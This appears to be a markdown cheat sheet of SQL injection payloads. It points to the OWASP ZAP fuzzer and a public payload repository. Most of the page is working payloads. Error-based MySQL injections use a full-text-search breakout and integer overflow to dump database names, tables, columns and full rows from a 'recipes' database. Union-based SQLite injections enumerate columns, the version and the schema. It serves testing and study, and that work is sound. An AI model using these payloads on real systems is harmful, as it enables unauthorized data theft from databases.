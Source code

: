 ## Owasp ZAP
```
fuzzer
```

## Payloads
- Link of advanced sqlinjection payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection

## ErrorBased SQLI

- The actual data retriving payload inside <<<>>>

```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT       ........... <<<version()>>> ...........          )s), 8446744073709551610, 8446744073709551610)))#
```
### Payloads
- Retrieve Databases names in one line
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT GROUP_CONCAT(schema_name) AS AllDatabases FROM information_schema.SCHEMATA)s), 8446744073709551610, 8446744073709551610)))#
```
- Retrive Table Names 
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'recipes' AND TABLE_TYPE = 'BASE TABLE')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Column Names
- Group_concat(concatinate the values of output in one line)
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * FROM (SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA = 'recipes' AND TABLE_NAME = 'recipes')s), 8446744073709551610, 8446744073709551610)))#
```

- Retrive Data from Table Columns
- Concat_ws(replace null value as '')
```
' IN BOOLEAN MODE) AND (SELECT 2*(IF((SELECT * From(SELECT concat_ws(',',id,name,servings,ingredients,instructions,description,category,added,modified,creator,editor,imagefile) FROM recipes)s), 8446744073709551610, 8446744073709551610)))#
```



## UnionBassed SQLI
- SQLite
- Test for the available columns
```
' union select 1,2,3,4,5,6,7 -- 
```
### Inject Payload
- Version check
```
' union select sqlite_version(),2,3,4,5,6 --
```
- Table Name exfilterate
```
' union select tbl_name,2,3,4,5,6 from sqlite_master--
```
- Column names exfilterate
```
' union select sql,2,3,4,5,6 from sqlite_master--
```

